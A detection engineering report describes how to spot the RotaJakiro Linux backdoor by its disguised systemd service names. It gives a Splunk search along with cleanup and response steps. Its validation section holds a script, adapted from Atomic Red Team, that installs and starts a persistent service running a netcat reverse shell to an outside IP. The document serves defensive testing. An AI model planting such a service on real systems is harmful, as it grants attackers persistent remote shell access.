 RotaJakiro ADS Report
=========================
**Author:** *Aidan Border*

## Goal

Detect attempts to install the RotaJakiro backdoor on Linux hosts by looking for a dropped `systemd` services.

## Categorization

These attempts are categorized under [Persistence / Create or Modify System Process / Systemd service](https://attack.mitre.org/techniques/T1543/002)[^3].

## Strategy Abstract
Strategies for defending against this threat should go as follows:

* Use endpoint monitoring and protection tooling to monitor services or processes running on a Linux host.
* Look for specific service names or processes known to be used by RotaJakiro[^4]
  * sys-temd-agent.service
  * gvfsd-helper
  * systemd-daemon
* Fire an alert if any of these processes are found on the system.

## Technical Context

Most modern Linux systems use a project called `systemd` as their init system and services manager[^2]. `systemd` services are background programs that run to support different functionality. An example of a program that runs as a service is `sshd`, the OpenSSH Server daemon.

There are two directories that `systemd` will look for services in. 

1. System-wide services are located in /etc/systemd/system/services.
2. Services that run when a user logs in are located in ~/.config/systemd/user.

A `systemd` service can technically be used to automatically launch any software on the system. Threat actors can use this to auto-launch malicious software, such as starting a keylogger when a privileged user logs in to attempt to siphon administrator credentials to the system. It is important to note that a keylogger targeting X.Org is very easy to write. Installing a user-level service to log every keystroke to a file would be relatively easy given a way to run a shell script.

## Blind Spots and Assumptions

We assume the system uses systemd. Linux systems using other methods of init are not applicable for the ADS discussed here.

We assume RotaJakiro is running as root. If the backdoor is running as a normal user, it makes use of XDG Autostart (under a graphical environment) or .bashrc for users running without a desktop environment.[^5]

Unix systems, such as FreeBSD, do not use systemd. As such, the strategy discussed here is not applicable to those systems.

## False Positives

This alert may cause false positives for systems running the GNOME Desktop Environment if the backdoor is running without root privileges, as the backdoor masquerades as gvfsd, or the GNOME Virtual File System daemon.

## Validation

### Validating the Detection
Validation can be performed by executing the provided shell script[^1] to generate a systemd service in the /etc/systemd/system directory.

```bash
echo "[Unit]" > /etc/systemd/system/sys-temd-agent.service
echo "Description=Atomic Red Team Systemd Service" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Service]" >> /etc/systemd/system/sys-temd-agent.service
echo "Type=simple"
echo "ExecStart=nc -e /bin/bash 192.168.100.191 9001" >> /etc/systemd/system/sys-temd-agent.service
echo "ExecStop=echo haha youve been pwned" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Install]" >> /etc/systemd/system/sys-temd-agent.service
echo "WantedBy=graphical.target" >> /etc/systemd/system/sys-temd-agent.service
systemctl daemon-reload
systemctl enable sys-temd-agent.service
systemctl start sys-temd-agent.service
```

The detection should alert on the generated systemd service.

An example detection alerts on the following search in Splunk: 

```
host="rocky-detection-test" sourcetype="journald" sys-temd-agent.service
```

![Splunk screenshot showing the example rule](https://github.com/ABeeinSpace/ADS-Report/assets/48869372/43f90beb-e214-474b-a89e-94b386ef7956)

This search will alert every time the sys-temd-agent.service string appears in the journald log, so it is quite noisy right now.

> Note:
> For this example search to work, a Splunk Universal Forwarder must be configured to ship journald logs on the target system to Splunk. Additionally, threat detection engineers should adapt the "host" and "sourcetype" fields to their environment. The "host" field pulls from the target system's hostname. "rocky-detection-test" is probably not valid in your environment.

### Cleanup

Detection engineers may clean up from validating the detection against their environment by doing the following steps:

On the test system:
1. Disable the sys-temd-agent.service using `systemctl`.
2. Remove the sys-temd-agent.service file from the filesystem.
3. Execute `systemctl daemon-reload` to tell systemd that the services defined on the system have changed.
4. If it was set up for this test, remove the Splunk Universal Forwarder from the system (Using the RPM package, it will be installed in the `/opt/splunkforwarder` directory by default).

On the Splunk instance:
1. Remove any alerts defined in the Search and Reporting app.
2. If it was set up specifically for this test, remove the receiving rule from Settings > Forwarding and receiving > Configure receiving.
3. If a separate index was used for this test, remove the index from your Splunk Enterprise or Splunk Cloud environment.

## Priority

Since this is a backdoor with a variety of features, any true positive alerts fired from this detection are set to high.

## Response

The following steps should be taken immediately upon a true positive alert:
  * Remove the system from the network.
  * Disable the systemd service using `systemctl` to prevent it from running at boot, then stop the service. Alternatively, the system can simply be restarted. 
    * Depending on the security requirements of your environment, you may consider deleting the service file from the filesystem.
  * Kill the systemd-daemon binary if it is actively running.
    * Again, depending on your environment, the binary can be removed now as well.
  * Escalate to a security incident after the immediate threat has been removed.

## Additional Resources

[^1]: Shell script originally published by [Atomic Red Team](https://atomicredteam.io/privilege-escalation/T1543.002/#atomic-test-1---create-systemd-service). I removed the templates and added the path to the systemd service location and name of the systemd service.

[^2]: [Arch boot process - Arch Wiki](https://wiki.archlinux.org/title/Arch_boot_process)

[^3]: [MITRE ATT&CK - Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)

[^4]: [RotaJakiro: A long live secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)

[^5]: [Backdoor.Linux.ROTAJAKIRO.A](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/backdoor.linux.rotajakiro.a/) 
